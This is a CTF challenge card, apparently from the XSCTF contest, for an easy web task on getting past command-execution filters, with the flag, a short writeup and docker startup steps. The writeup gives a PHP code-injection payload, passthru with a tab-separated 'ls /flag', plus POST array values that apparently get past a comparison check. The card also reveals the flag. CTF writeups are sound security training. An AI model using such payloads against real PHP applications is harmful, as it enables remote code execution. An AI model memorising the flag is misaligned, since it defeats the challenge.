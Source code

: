 - **题目名称：** eval_eval_我的
- **题目类型：** WEB（23）
- **题目难度：** 容易
- **出题人：** itSssm3
- **考点：**

1. 命令执行绕过

- **描述：** 总是在做别人的eval 我吃醋啦！0.o 这次evaleval我的吧~
- **flag：** XSCTF{YoU_F1NalLy_EvaLLL_m3!!}
- **Writeup：** 

payload如下

```
GET:
?xsctf=passthru("ls%09/flag");;
POST:
Xp0int[]=1&Sloth[]=2
```

- ### **容器启动方式：** 
* #### cd build/docker
* #### docker-compose up -d